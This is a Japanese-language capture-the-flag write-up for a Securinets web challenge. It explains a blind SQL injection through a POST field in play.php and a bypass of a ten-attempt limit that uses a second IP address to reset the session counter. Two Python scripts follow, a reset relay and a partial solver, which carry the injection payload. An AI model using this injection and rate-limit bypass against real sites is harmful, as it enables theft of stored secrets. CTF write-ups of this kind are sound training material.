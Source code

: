 `play.php` の `$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";` で SQLi ができますが、クエリの結果はその成否しか得ることができません。Blind SQLi で `token` を特定しようにも、10 回の試行で 100 文字というのは現実的ではありません。

ですが、`token` は DB に IP アドレス単位で、試行のカウントはセッション ID 単位で管理されていることを利用して 10 回という上限を無視することができます。具体的には、2 つのグローバル IP アドレスを用意し、一方の IP アドレスで Blind SQLi を行いながら、もう一方の IP アドレスを使って同じセッション ID で `reset.php` を叩くことで実現することができます。

以下の `reset.py` と `solver.py` を別々の IP アドレスで実行すると `token` を得ることができ、これを `flag.php` に入力することでフラグが得られました。

`reset.py` (カウントのリセット用)

```python
from flask import *
import requests

app = Flask(__name__)
URL = 'https://web4.ctfsecurinets.com/'

@app.route('/reset', methods=['POST'])
def reset():
  if request.method == 'POST':
    cookies = {'PHPSESSID': request.form['sessid']}
    requests.get(URL + 'reset.php', cookies=cookies)
    requests.get(URL, cookies=cookies)
    return 'ok'

if __name__ == "__main__":
  app.run(host='0.0.0.0', port=8080, threaded=True)
```

`solver.py`

```python
import json
import requests

URL = 'https://web4.ctfsecurinets.com/'
ip_addr = json.loads(requests.get('http://inet-ip.info/json/indent').content)['IP']

sess = requests.Session()
sess.get(URL + 'reset.php')
sess.get(URL)
sessid = sess.cookies['PHPSESSID']
print('PHPSESSID', sessid)

def reset():
  requests.post('http://…/reset', data={
    'sessid': sessid
  })

cnt = 0
def query(q):
  global cnt
  if cnt % 10 == 0:
    reset()

  payload = "' or ip = '{}' and {};#".format(ip_addr, q)
  r = sess.post(URL + 'play.php', data={
    'val': payload
  }).content.decode('ascii')

  assert '502 Bad Gateway' not in r

  cnt += 1
  return r

```